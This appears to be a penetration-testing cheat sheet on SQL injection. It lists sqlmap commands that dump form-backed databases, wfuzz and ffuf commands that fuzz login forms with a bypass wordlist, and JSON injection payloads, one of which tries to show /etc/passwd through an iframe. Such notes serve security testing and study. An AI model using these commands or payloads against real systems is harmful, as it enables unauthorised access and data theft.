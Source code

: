 # SQL Injection

<details>

<summary>Table of Content</summary>

* [SQLMaps](sql\_injection.md#sqlmaps)
  * [SQLMap Level](sql\_injection.md#sqlmap-level)
  * [SQLmap WebSocket](sql\_injection.md#sqlmap-websocket)
  * [SQLmap Cheatsheet](sql\_injection.md#sqlmap-cheatsheet)
* [Login forms](sql\_injection.md#login-forms)
  * [Json injection](sql\_injection.md#json-injection)
* [Any forms](sql\_injection.md#any-forms)
  * [Json injection](sql\_injection.md#json-injection-1)

</details>

## SQLMaps

SQLMap can be used to detect SQL Injection.

```bash
sqlmap -u "http://<URL>/" --batch --dump --forms
```

### SQLMap Level

* level 1: By default
* level 2: Test HTTP Cookie header
* level 3: Test HTTP User-Agent/Referer headers

### SQLmap WebSocket

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

### SQLmap Cheatsheet

> [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

## Login forms

Techniques and tools used to bypass login forms using SQL Injection. The wordlist can be found [here](../../SQL\_Injection/files/sqli\_login\_form.txt). It is taken from HackTricks.

> **SQL Login Bypass**&#x20;
>
> [Hacktricks ](https://book.hacktricks.xyz/pentesting-web/login-bypass)
>
> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

> **NoSQL Login Bypass**&#x20;
>
> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

**Using wfuzz**

Keyword `FUZZ` is used to determine the parameter that will be used.

```bash
wfuzz -c -z file,sqli.req -d "username=FUZZ&password=pass" -u "http://<IP>/login"
```

Useful options

* `-H`: Used to set custom header
* `--hc/hl/hw/hh`: Hide responses with the specified code/lines/words/chars
* `--sc/sl/sw/sh`: Show responses with the specified code/lines/words/chars
* `-d`: request datas

**Using ffuf**

```bash
ffuf -u http://<URL>/login -c -w sqli.req -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

Useful options

* `-H`: Used to set custom header
* `-d`: request datas

**Using SQLmap**

Load a file with `-r` option.

```bash
sqlmap -r sqli.req -u "http://<URL>/login" --data "username=admin&password=pass"
```

### Json injection

1. Replace content-type: `Content-Type: application/json`
2. Send json payload: https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

## Any forms

### Json injection

```bash
"user":"<a href='http\\\\:someurl.com'>ACTIVATE USER HERE</a>"
"user":"<img src=https\\://dummyimage.com/200x200/ff00d5&text=HAHAHA/>"
"title":"<iframe src=file:///ect/passwd height=800px width=600px></iframe>"
```

> **JSON Injection:** [https://lisandre.com/archives/2286](https://lisandre.com/archives/2286)
